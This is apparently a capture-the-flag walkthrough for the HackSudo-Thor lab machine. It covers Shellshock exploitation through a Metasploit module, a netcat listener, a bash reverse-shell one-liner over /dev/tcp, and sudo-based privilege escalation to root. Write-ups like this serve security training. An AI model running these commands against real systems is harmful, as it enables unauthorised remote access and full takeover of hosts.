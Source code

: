                                              HackSudo-Thor WalkThrough - Faton Haxhiu


First in order to find the IP Address of the machine we run netdiscover command in our case is 10.0.2.15. 

![1 1](https://github.com/FatonHaxhiu/HackSudo-Thor/assets/67721504/bfeed9db-c1f6-48e3-b21b-801be763bb36)

When we navigate to source good of the website we found that there may be a shellshock vulnerability (Apache server) based on cgi-bin.

![1](https://github.com/FatonHaxhiu/HackSudo-Thor/assets/67721504/9be0c7f1-efd9-4745-b1e8-3cdcf4d9f743)

We run dirb http://10.0.2.15/cgi-bin -x .sh to find vulnerability which can have a module in metasploit.

![2](https://github.com/FatonHaxhiu/HackSudo-Thor/assets/67721504/20e90d57-d9c1-4487-a09b-a6393957abf8)

After that we open metasploit and we use multi/http/apache_mod_cgi_bash_env_exec exploit. 
Follow these steps in metasploit:
-search shellshoc exploit 
-use  multi/http/apache_mod_cgi_bash_env_exec
-set host 'IP for victim'
-set targeturi /cgi-bin/shell.sh
-run 
We have a shell created!

![3](https://github.com/FatonHaxhiu/HackSudo-Thor/assets/67721504/44a80511-fc02-4db3-a507-b3b899793408)

If you are not fan of shell e metasploit you can redirect shell by open a netcat connection. 
Open another window in terminal a open netcat connection in our case we use port 9001 nc -nlvp 9001

![5](https://github.com/FatonHaxhiu/HackSudo-Thor/assets/67721504/a7d9f20b-2f47-45e7-89c1-3008554c95e9)

After you have open your netcat in shell in metasploit write: bash -c 'bash -i >& /dev/tcp/(host IP)/9001 0>&1'. This is going to open shell in your netcat window. 

![4](https://github.com/FatonHaxhiu/HackSudo-Thor/assets/67721504/fc0322af-ce47-4e5b-838c-2442f8529586)

Now we gonna try Privilege escalation to us, first we will check what can find in shell such us useful information or scripts. We can do this by doing sudo -l we found there a scrip we can execute /home/thor/./hammer.sh
We go ahead and we execute it sudo -u /home/thor/./hammer.sh we can scripts it need code to execute this can lead us to get full-shell access this we can do by using bash as main input. 

![7](https://github.com/FatonHaxhiu/HackSudo-Thor/assets/67721504/b69502a8-b20b-41b5-95b7-d322e451b5a0)

Running this command SHELL=/bin/bash script -q /dev/null is going to grant root access. 

We have come to the part of Root privilege escalation this can be done by just running this command: sudo service ../../bin/bash

![8](https://github.com/FatonHaxhiu/HackSudo-Thor/assets/67721504/edd5ec0f-3679-46c3-9be7-da79f5a23b31)


Congratulations you have now full access. 

